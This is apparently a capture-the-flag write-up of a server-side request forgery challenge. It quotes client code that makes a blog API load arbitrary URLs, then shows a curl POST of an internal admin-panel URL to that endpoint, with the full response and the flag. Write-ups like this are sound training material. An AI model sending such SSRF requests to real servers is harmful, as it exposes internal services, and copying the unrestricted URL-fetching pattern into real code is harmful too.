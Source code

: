 The vulnerable part of the code is this code snippet
'''
  
    <script>
        const API_PATH = '/api/view.php';

        async function fetchPost(id) {
            const fetchResult = await fetch(API_PATH, {
                method: 'POST',
                cache: 'no-cache',
                headers: {
                    'Content-type': 'application/json'
                },
                body: JSON.stringify({ post: `file:///posts/${id}` })
            });
'''
The api endpoint code loads any url submitted to it and it makes it susceptible to Server side request forgery which occurs when a website is induced to load a particular url.
The main task in the challenge is to load a url that can't be accessed outside.With the vulnerable part of site,I used curl to solve it by submitting the url that can't be accessed outside except eithin the server.
'''
     
    curl https://ecorpblog.uctf.ir/api/view.php -v -X POST --header 'Content-Type:application/json' -d '{"post": "http://admin-panel.local/"}'
'''
'''
    ####RESPONSE#####
    * Using Stream ID: 1
    > POST /api/view.php HTTP/2
    > Host: ecorpblog.uctf.ir
    > User-Agent: curl/8.2.1
    > Accept: */*
    > Content-Type:application/json
    > Content-Length: 37
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * old SSL session ID is stale, removing
    < HTTP/2 200
    < date: Sun, 03 Sep 2023 13:33:41 GMT
   < content-type: application/json
   < content-length: 50
   < vary: Accept-Encoding
   < x-powered-by: PHP/7.2.34
   < x-xss-protection: 1; mode=block
   < server: ArvanCloud
   < x-sid: 4101
   < server-timing: total;dur=98
   < x-request-id: b72a53f22b5cf18d0b1bb14a5cf75106
   < accept-ranges: bytes
   <
   * Connection #1 to host ecorpblog.uctf.ir left intact
   {"status":"success","post":"uctf{4z174_1n_urm14}"}
'''


